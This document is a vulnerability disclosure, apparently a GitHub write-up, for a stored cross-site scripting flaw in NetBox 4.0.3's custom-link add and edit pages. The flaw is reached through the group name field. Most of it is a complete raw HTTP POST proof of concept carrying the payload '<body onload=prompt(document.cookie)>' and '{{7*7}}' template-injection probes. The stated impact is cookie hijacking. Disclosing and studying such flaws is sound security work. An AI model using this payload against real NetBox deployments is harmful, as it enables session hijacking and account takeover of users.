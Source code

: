 # **Description:**

Store XSS on the api /extras/custom-links/add/ or /extras/custom-links/{id}/edit of NetBox version 4.0.3 (https://github.com/netbox-community/netbox) allow remote attackers hijack user's cookies attack via param  Group name.

# **Proof of Concept:**

1, Add or Edit a Custom Link  with malicious script tags at param  Group Name

2, Access Object Type using Custom Link

3, Immediately boom, Stored XSS is executed

```POST /extras/custom-links/add/ HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost:8000/extras/custom-links/add/
Content-Type: multipart/form-data; boundary=---------------------------300193789523924448502163188369
Content-Length: 1589
Origin: http://localhost:8000
Connection: close
Cookie: csrftoken=GPFwHFgQsCVRlXGYb2Efv9gKs2SXEiIN; sessionid=jv3bmrc6goo62qohlkckic0eolv7nrde
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: red
Priority: u=1

-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="csrfmiddlewaretoken"

oDVU0Umj4Oip7YXSKVBW5T4WgmBHvaJZUiqgxpsZmg36iLtGLN51qSawyejuZihC
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="name"

<h1>test</h1>
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="object_types"

46
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="weight"

100
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="group_name"

<body onload=prompt(document.cookie)>
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="button_class"

outline-dark
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="enabled"


-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="enabled"

on
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="new_window"


-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="link_text"

{{7*7}}
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="link_url"

{{7*7}}
-----------------------------300193789523924448502163188369
Content-Disposition: form-data; name="_create"


-----------------------------300193789523924448502163188369--
```
![image](https://github.com/minhquan202/Vuln-Netbox-XSS/assets/89106168/bf617022-880a-4c2a-a798-002a25da662b)
![image](https://github.com/minhquan202/Vuln-Netbox-XSS/assets/89106168/6ce2c08d-9ead-480f-8d4f-1f3e2954abbb)

# Impact:

hijack user's cookies
